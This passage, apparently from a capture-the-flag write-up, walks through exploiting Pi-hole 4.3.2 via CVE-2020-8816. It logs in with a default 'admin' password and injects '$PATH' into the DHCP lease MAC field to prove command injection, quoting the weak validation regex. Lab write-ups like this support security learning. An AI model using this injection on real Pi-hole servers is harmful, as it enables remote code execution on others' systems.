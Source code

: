 	  Pi-hole Version v4.3.2 Web Interface Version v4.3 FTL Version v4.3.1

* On the console i got a pi-hole hostname

	  pihole.unbalanced.htb

* login with temporary password:admin - login successful

* __IP:127.0.0.1__ and __IP: 172.31.11.3__ give same result because Pi-hole instance is accessible from both local and squid-proxy.

* search for Pi-hole 4.3.2 vulnerability i got an exploit from [ExploitDB](https://www.exploit-db.com/exploits/48727)


## Exploting Pi-hole

__Exploit Impact :__ Pi-hole Web v4.3.2 (aka AdminLTE) allows Remote Code Execution by privileged dashboard users via a crafted DHCP static lease.

__Exploit Reason :__ defining MAC address while configuring DHCP leases form pi-hole is not validate the mac address properly so one can manipulate that mac address field and put reverse shell and excute it.

__refer to [natedotred bolg](https://natedotred.wordpress.com/2020/03/28/cve-2020-8816-pi-hole-remote-code-execution/) for complete exploitation process.__

__Goto__ Pi-hole Web-Console >> Admin-Panel >> Settings (login with Password:admin) >> DHCP tab

	http://172.31.11.3/admin/settings.php?tab=piholedhcp

* legitimate MAC address format should be as follows:

	  aaaaaaaaaaaa

* The MAC address input can be tampered to execute arbitrary code:

	  aaaaaaaaaaaa$PATH

* configure __DHCP leas__ with tampered MAC
	  
	  MAC address		IP address	Hostname	
	
	  aaaaaaaaaaaa$PATH 	10.10.10.200 	10.10.10.200

* got output like this:

	  MAC address										IP address	Hostname	
	
	  AAAAAAAAAAAA/opt/pihole:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin 	10.10.10.200 	10.10.10.200

  pi-hole [`savesettings.php`](dump/savesettings.php) is responsible for this vulnerability.

__[lines 53-57](dump/savesettings.php#L53):__ The application first validates the MAC address format using the function preg_match().
```
function validMAC($mac_addr)
{
  // Accepted input format: 00:01:02:1A:5F:FF (characters may be lower case)
  return (preg_match('/([a-fA-F0-9]{2}[:]?){6}/', $mac_addr) == 1);
}
```
